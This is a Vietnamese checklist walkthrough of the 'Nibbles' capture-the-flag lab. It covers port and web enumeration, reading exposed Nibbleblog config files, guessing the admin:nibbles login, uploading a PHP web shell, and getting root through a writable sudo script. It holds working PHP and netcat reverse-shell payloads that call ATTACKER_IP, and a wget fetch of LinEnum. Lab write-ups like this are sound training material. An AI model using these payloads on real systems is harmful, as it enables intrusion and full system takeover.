

# Checklist: Nibbles Enumeration

## A. Chuẩn bị workspace

```bash
mkdir nibbles
cd nibbles
```

- [ ] Tạo thư mục làm việc
- [ ] Lưu toàn bộ output scan
- [ ] Ghi chú IP target
- [ ] Ghi chú OS nếu biết

---

## B. Initial Scan

```bash
nmap -sV --open -oA scans/nibbles_initial_scan <target-ip>
```

- [ ] Xác định port mở
- [ ] Xác định service
- [ ] Xác định version
- [ ] Xác định OS/service hint
- [ ] Ghi lại service đáng chú ý

---

## C. Full TCP Scan

```bash
nmap -p- --open -oA scans/nibbles_full_tcp_scan <target-ip>
```

- [ ] Scan toàn bộ 65535 TCP ports
- [ ] Kiểm tra có port lạ/non-standard không
- [ ] Nếu có port mới, chạy `-sV -sC` riêng cho port đó

---

## D. Banner Grabbing

```bash
nc -nv <target-ip> 22
nc -nv <target-ip> 80
```

- [ ] SSH có trả banner không?
- [ ] HTTP có phản hồi không?
- [ ] Banner có lộ version không?
- [ ] So sánh với kết quả Nmap

---

## E. Script Scan

```bash
nmap -sC -p 22,80 -oA scans/nibbles_script_scan <target-ip>
```

- [ ] Chạy default NSE scripts trên port mở
- [ ] Ghi lại HTTP title
- [ ] Ghi lại SSH host keys nếu cần
- [ ] Kiểm tra có script output bất thường không

---

## F. HTTP Enumeration

```bash
nmap -sV --script=http-enum -oA scans/nibbles_nmap_http_enum <target-ip>
```

- [ ] Dò common web directories bằng `http-enum`
- [ ] Nếu không ra gì, không kết luận web “không có gì”
- [ ] Tiếp tục enum bằng browser/curl/gobuster/ffuf

---

## G. Ghi chú kết quả

- [ ] IP target
- [ ] Open ports
- [ ] Services
- [ ] Versions
- [ ] Web server
- [ ] OS hints
- [ ] Output file paths
- [ ] Ý tưởng next step

Mẫu ghi chú:

```text
Target: 10.129.8.208
OS: Linux/Ubuntu
Open ports:
- 22/tcp SSH OpenSSH 7.2p2 Ubuntu
- 80/tcp HTTP Apache httpd 2.4.18 Ubuntu

Next: Web footprinting
- Browse http://10.129.8.208/
- View source
- Directory brute-force
- Check robots.txt
- Check web technologies
```


---
# Checklist: Nibbles Web Footprinting

## A. Web technology detection

```bash
whatweb http://<target-ip>
```

- [ ] Web server là gì?
- [ ] Có framework/CMS không?
- [ ] Có cookie/session đáng chú ý không?
- [ ] Có title/metagenerator không?

---

## B. Manual web check

```bash
curl http://<target-ip>
```

Hoặc mở bằng browser.

- [ ] Trang hiển thị gì?
- [ ] Có HTML comment không?
- [ ] Có hidden path không?
- [ ] Có link/script/css tiết lộ thư mục không?

Xem source:

```bash
curl -s http://<target-ip> | less
```

Tìm keyword:

```bash
curl -s http://<target-ip> | grep -iE "admin|login|blog|cms|directory|comment|nibble"
```

---

## C. Check discovered path

Nếu thấy `/nibbleblog/`:

```bash
whatweb http://<target-ip>/nibbleblog/
curl -i http://<target-ip>/nibbleblog/
```

- [ ] Có redirect không?
- [ ] App là gì?
- [ ] Có PHPSESSID không?
- [ ] Có CMS/version không?

---

## D. Directory brute-force

```bash
gobuster dir -u http://<target-ip>/nibbleblog/ -w /usr/share/seclists/Discovery/Web-Content/common.txt
```

Ghi lại các status:

```text
200 = truy cập được
301 = redirect, thường là directory
403 = tồn tại nhưng forbidden
```

Path cần chú ý:

```text
/admin.php
/README
/content
/private
/themes
/plugins
```

---

## E. Version discovery

```bash
curl http://<target-ip>/nibbleblog/README
```

- [ ] Version là gì?
- [ ] Release date?
- [ ] Có yêu cầu hệ thống không?
- [ ] Có thư mục writable không?

Search exploit:

```bash
searchsploit nibbleblog
```

Hoặc Metasploit:

```text
search nibbleblog
```

---

## F. Admin portal

```text
http://<target-ip>/nibbleblog/admin.php
```

- [ ] Có login form không?
- [ ] Có reset password không?
- [ ] Có lockout/blacklist không?
- [ ] Exploit có cần credential không?

Không brute-force bừa nếu có blacklist.

---

## G. Enumerate exposed files

Kiểm tra directory listing:

```text
/nibbleblog/content/
/nibbleblog/content/private/
/nibbleblog/themes/
/nibbleblog/plugins/
```

Đọc users.xml:

```bash
curl -s http://<target-ip>/nibbleblog/content/private/users.xml | xmllint --format -
```

Đọc config.xml:

```bash
curl -s http://<target-ip>/nibbleblog/content/private/config.xml | xmllint --format -
```

- [ ] Có username không?
- [ ] Có email không?
- [ ] Có title/site name không?
- [ ] Có password hoặc clue password không?
- [ ] Có blacklist IP không?

---

## H. Credential guessing có kiểm soát

Dựa trên clue:

```text
site name
box name
email
title
slogan
company name
username
```

Thử ít credential có cơ sở:

```text
admin:nibbles
```

Không dùng Hydra nếu app có blacklist.

---

## I. Ghi chú kết quả

- [ ] App: Nibbleblog
- [ ] Version: 4.0.3
- [ ] Admin portal: `/nibbleblog/admin.php`
- [ ] Username: `admin`
- [ ] Password clue: `nibbles`
- [ ] Credential: `admin:nibbles`
- [ ] Exploit candidate: authenticated file upload vulnerability

---

# Checklist: Nibbles Initial Foothold

## A. Xác nhận login admin

- [ ] Truy cập:

```text
http://<target-ip>/nibbleblog/admin.php
```

- [ ] Login bằng credential tìm được:

```text
admin:nibbles
```

- [ ] Xác nhận vào được dashboard

---

## B. Enumerate admin portal

- [ ] Kiểm tra `Publish`
- [ ] Kiểm tra `Manage`
- [ ] Kiểm tra `Settings`
- [ ] Xác nhận version `4.0.3`
- [ ] Kiểm tra `Themes`
- [ ] Kiểm tra `Plugins`
- [ ] Tìm chức năng upload file

Hướng chính:

```text
Plugins → My image
```

---

## C. Test RCE bằng PHP web shell

Tạo file local:

```bash
echo "<?php system('id'); ?>" > image.php
```

- [ ] Vào plugin `My image`
- [ ] Upload `image.php`
- [ ] Nếu thấy warning xử lý ảnh, không vội kết luận fail

Kiểm tra file upload:

```bash
curl http://<target-ip>/nibbleblog/content/private/plugins/my_image/image.php
```

- [ ] Nếu output có `uid=...`, đã có RCE

---

## D. Chuẩn bị reverse shell

Lấy IP attacker:

```bash
ip a
```

- [ ] Chọn IP `tun0`
- [ ] Chọn port listener, ví dụ `9443`

Tạo PHP reverse shell:

```bash
cat > image.php << 'EOF'
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ATTACKER_IP 9443 >/tmp/f"); ?>
EOF
```

- [ ] Thay `ATTACKER_IP` bằng IP `tun0`
- [ ] Upload lại qua plugin `My image`

---

## E. Mở listener

```bash
nc -lvnp 9443
```

- [ ] Listener đang chờ kết nối
- [ ] Không bị port conflict
- [ ] Firewall/VPN hoạt động

---

## F. Trigger shell

```bash
curl http://<target-ip>/nibbleblog/content/private/plugins/my_image/image.php
```

Hoặc mở URL bằng browser.

- [ ] Listener nhận connection
- [ ] Chạy `id`
- [ ] Xác nhận user là `nibbler`

---

## G. Upgrade shell

```bash
which python
which python3
```

Nếu có Python 3:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

- [ ] Shell chuyển sang bash
- [ ] Có thể dùng command tiện hơn

---

## H. Lấy user flag

```bash
cd /home/nibbler
ls -la
cat user.txt
```

- [ ] Lưu user flag
- [ ] Ghi chú file `personal.zip` để phục vụ priv esc

---

# Checklist: Nibbles Privilege Escalation

## A. Xác định user hiện tại

```bash
whoami
id
hostname
pwd
```

- [ ] Đang là user `nibbler`
- [ ] Có shell ổn định
- [ ] Đã upgrade TTY nếu cần

---

## B. Kiểm tra home directory

```bash
cd /home/nibbler
ls -la
```

- [ ] Đọc `user.txt`
- [ ] Thấy `personal.zip`

Giải nén:

```bash
unzip personal.zip
```

- [ ] Tìm được `personal/stuff/monitor.sh`

---

## C. Kiểm tra quyền file monitor.sh

```bash
ls -la /home/nibbler/personal/stuff/monitor.sh
```

- [ ] File có thuộc user `nibbler` không?
- [ ] User `nibbler` có quyền ghi không?
- [ ] Đây có phải script shell không?

Đọc file:

```bash
cat /home/nibbler/personal/stuff/monitor.sh
```

---

## D. Kiểm tra sudo privilege

Thử thủ công:

```bash
sudo -l
```

Nếu có passwordless sudo, output sẽ có:

```text
(root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```

Nếu dùng LinEnum:

```bash
wget http://ATTACKER_IP:8080/LinEnum.sh
chmod +x LinEnum.sh
./LinEnum.sh
```

- [ ] Tìm dòng `We can sudo without supplying a password`
- [ ] Tìm dòng `Possible sudo pwnage`

---

## E. Chuẩn bị payload root reverse shell

Trên attacker mở listener:

```bash
nc -lvnp 8443
```

Trên target backup file:

```bash
cd /home/nibbler/personal/stuff
cp monitor.sh monitor.sh.bak
```

Append payload:

```bash
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ATTACKER_IP 8443 >/tmp/f' | tee -a monitor.sh
```

- [ ] Thay `ATTACKER_IP` bằng IP `tun0`
- [ ] Đảm bảo listener đã mở trước khi chạy sudo

---

## F. Chạy script bằng sudo

```bash
sudo /home/nibbler/personal/stuff/monitor.sh
```

Trên listener kiểm tra:

```bash
id
whoami
```

- [ ] Output là `uid=0(root)`
- [ ] Đã có root shell

---

## G. Lấy root flag

```bash
cat /root/root.txt
```

- [ ] Lưu flag
- [ ] Ghi lại bước khai thác
- [ ] Nếu muốn cleanup, restore monitor.sh:

```bash
cp monitor.sh.bak monitor.sh
```